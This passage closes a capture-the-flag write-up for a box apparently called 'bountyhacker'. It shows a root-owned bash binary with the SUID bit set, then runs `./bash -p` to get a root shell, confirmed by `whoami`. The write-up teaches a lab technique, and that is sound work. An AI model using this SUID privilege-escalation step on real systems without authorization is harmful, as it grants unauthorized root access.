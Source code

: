 When I log out and log back in that should give full permissions to the binary including SUID.

I log out and back in and check the permissions again:

```
-rwsrwsrwt  1 root root 1037528 Oct 24 21:11 bash
```

And running it via `./bash -p`:

```
<REDACTED>@bountyhacker:~$ ./bash -p
bash-4.3# whoami
root
```

<br>

With that we've completed this CTF!

![](images/bountyhacker3.png)

<br>

## Conclusion
